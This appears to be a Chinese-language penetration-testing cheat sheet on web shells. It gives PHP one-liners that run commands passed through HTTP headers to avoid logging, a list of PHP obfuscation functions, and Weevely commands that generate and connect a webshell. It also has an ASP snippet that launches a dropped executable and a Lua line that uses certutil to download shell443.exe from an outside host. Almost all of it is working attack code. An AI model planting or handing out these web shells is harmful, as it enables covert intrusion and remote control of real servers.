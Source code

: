 ```
http://192.168.1.2/index.php?cmd=pwd
```

* header传参
url传参会记录日志，通过header传参进行隐藏

```
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

* 混淆代码

```
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

* Weevely 
生成php webshell的工具

```
weevely generate password /root/webshell.php
weevely "http://192.168.1.2/webshell.php" password
```

## Asp

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## lua
+ lsp reverse shell on [github]( https://iboxshare.com/the-emmon/lsp-reverse-shell/blob/main/rev.lsp)
+ lua shell from [payloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#lua)
+ pg-medjed

```bash
 <?lsp os.execute('cmd.exe /c certutil -urlcache -f "http://192.168.49.230/shell443.exe" shell.exe') ?>

```


# Common web server
